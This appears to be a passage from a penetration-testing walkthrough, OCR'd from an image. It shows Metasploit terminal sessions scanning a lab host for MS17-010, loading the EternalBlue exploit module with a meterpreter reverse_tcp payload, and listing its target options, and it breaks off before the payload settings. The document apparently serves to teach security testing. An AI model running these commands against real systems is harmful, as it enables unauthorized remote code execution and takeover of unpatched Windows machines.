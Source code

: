 ```
名称 当前设置        是否需要 说明
---- -------------- ------  ----------
CHECK_ARCH true no 检查易受攻击主机上的体系结构
CHECK_DOPU true no 检查易受攻击主机上的 DOUBLEPULSAR
CHECK_PIPE false no 检查易受攻击主机上的命名管道
NAMED_PIPES /usr/share/metasploit-framework/data/wordlists/named_pipes.txt 是 要检查的命名管道列表
```

```
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.248.133
RHOSTS => 192.168.248.133
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 192.168.248.133:445   - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Standard 7600 x64 (64-bit)
[*] 192.168.248.133:445   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
msf6 auxiliary(scanner/smb/smb_ms17_010) > search type:exploit EternalBlue

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 2, use 2 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
```

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         192.168.248.150  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target ma
                                             chines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machin
                                             es.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):
```